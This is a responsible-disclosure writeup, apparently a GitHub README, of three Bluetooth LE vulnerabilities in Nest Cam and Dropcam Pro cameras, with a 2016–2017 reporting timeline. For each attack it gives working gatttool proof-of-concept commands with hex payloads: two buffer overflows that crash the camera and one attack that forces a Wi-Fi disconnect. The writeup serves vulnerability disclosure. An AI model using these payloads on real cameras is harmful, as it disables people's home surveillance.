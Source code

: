 # Google-Nest-Cam-Bug-Disclosures

Affected: Dropcam Pro, Nest Cam Indoor/Outdoor models<br />
Latest Build Tested: 205-600052<br />
Fixed Build: TBD<br />

Disclosure Timeline:<br />
October 26, 2016: Reported security bug per Google's Vulnerability Reward Program guidelines<br />
October 27, 2016: Google Security Team acknowledged that the report was received and being investigated<br />
November 1, 2016: Google Security Team validated the reported vulnerabilities and filed a bug<br />
November 15, 2016: Google's VRP panel issued a $100 reward under "Non-integrated acquisitions"<br />
March 17, 2017: Public disclosure<br />


<h3>Bluetooth (BLE) based Buffer Overflow via SSID parameter</h3>

1. Summary<br />
It's possible to trigger a buffer overflow condition when setting the SSID parameter on the camera. The attacker must be in bluetooth range at any time during the cameras powered on state. Bluetooth is never disabled even after initial setup.

2. Proof of Concept<br />
`anon@ubuntu:~/nest$ gatttool -b 18:B4:30:5D:00:B8 -t random -I`<br />
`[18:B4:30:5D:00:B8][LE]> connect`<br />
`Attempting to connect to 18:B4:30:5D:00:B8`<br />
`Connection successful`<br />
`[18:B4:30:5D:00:B8][LE]> char-write-req 0xfffd 3a031201AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`<br />
`[18:B4:30:5D:00:B8][LE]> char-write-req 0xfffd 3b`<br />
`Characteristic value was written successfully`<br />
`Characteristic value was written successfully`<br />
`[18:B4:30:5D:00:B8][LE]>`<br />
`(gatttool:20352): GLib-WARNING **: Invalid file descriptor.`<br />

3. Details<br />
The payload attempts to set an SSID with a length of 1 byte and sends 16.<br />
SequenceNum=3a + Type=0312 + Length=01 + Value=AA*16<br />

4. Result<br />
Crash and reboot back to operational state

<h3>Bluetooth (BLE) based Buffer Overflow via Encrypted Password parameter</h3>

1. Summary<br />
It's possible to trigger a buffer overflow condition when setting the encrypted password parameter on the camera. The attacker must be in bluetooth range at any time during the cameras powered on state. Bluetooth is never disabled even after initial setup.

2. Proof of Concept<br />
`anon@ubuntu:~/nest$ gatttool -b 18:B4:30:5D:00:B8 -t random -I`<br />
`[18:B4:30:5D:00:B8][LE]> connect`<br />
`Attempting to connect to 18:B4:30:5D:00:B8`<br />
`Connection successful`<br />
`[18:B4:30:5D:00:B8][LE]> char-write-req 0xfffd 3a03120b506574536d6172742d356e1a01AAAAAA`<br />
`[18:B4:30:5D:00:B8][LE]> char-write-req 0xfffd 3b`<br />
`Characteristic value was written successfully`<br />
`Characteristic value was written successfully`<br />
`[18:B4:30:5D:00:B8][LE]> `<br />
`(gatttool:20352): GLib-WARNING **: Invalid file descriptor.`<br />

3. Details<br />
The payload attempts to set the encrypted wifi password with a length of 1 byte and sends 3.<br />
SequenceNum=3a + Type=0312 + Length=0b + ssidVal=506574536d6172742d356e + type=1a + length=01 + encPass=AA*3<br />

4. Result<br />
Crash and reboot back to operational state


<h3>Bluetooth (BLE) based Wifi Disassociation</h3>

1. Summary<br />
It's possible to temporarily disconnect the camera from Wifi by supplying it a new SSID to connect to. Local storage of video footage is not supported by these cameras so surveillance is temporarily disabled. The attacker must be in bluetooth range at any time during the cameras powered on state. Bluetooth is never disabled even after initial setup.

2. Proof of Concept<br />
`anon@ubuntu:~/nest$ gatttool -b 18:B4:30:5D:00:B8 -t random -I`<br />
`[18:B4:30:5D:00:B8][LE]> connect`<br />
`Attempting to connect to 18:B4:30:5D:00:B8`<br />
`Connection successful`<br />
`[18:B4:30:5D:00:B8][LE]> char-write-req 0xfffd 3a03120b0a6574536d6172742d356e1a20232320`<br />
`[18:B4:30:5D:00:B8][LE]> char-write-req 0xfffd 3becb824ba437c13233ac2ff78b1776456e47a01`<br />
`[18:B4:30:5D:00:B8][LE]> char-write-req 0xfffd 3ca5787d2f5e53f394a512200228003210bc9253`<br />
`[18:B4:30:5D:00:B8][LE]> char-write-req 0xfffd 3d48cada7a0d921d57b2d26ae89c3a04DEADBEEF`<br />
`[18:B4:30:5D:00:B8][LE]> char-write-req 0xfffd 3e`<br />
`Characteristic value was written successfully`<br />
`Characteristic value was written successfully`<br />
`Characteristic value was written successfully`<br />
`Characteristic value was written successfully`<br />
`Characteristic value was written successfully`<br />
`[18:B4:30:5D:00:B8][LE]> `<br />

3. Details<br />
The payload attempts to change Nest Cam's associated SSID causing temporary disassociation from the current Wifi SSID. Without knowing the encryption key, a valid password can not be set.
seqNum + 0312(type) 0b(len) + SSID + 1a(type) 20(len) + encPass
seqNum + encPass(cont)
seqNum + encPass(cont) + 2002280032(constant) + 10(len) + authTag
seqNum + authTag(cont) + 3a(UnknownType) 04(len) + DEADBEEF
seqNum(execute)

4. Result<br />
Camera dissociates from current wifi network to attempt association with newly set SSID. The camera goes offline for approximately 60-90 seconds before returning to the original Wifi network and resuming normal operation. 
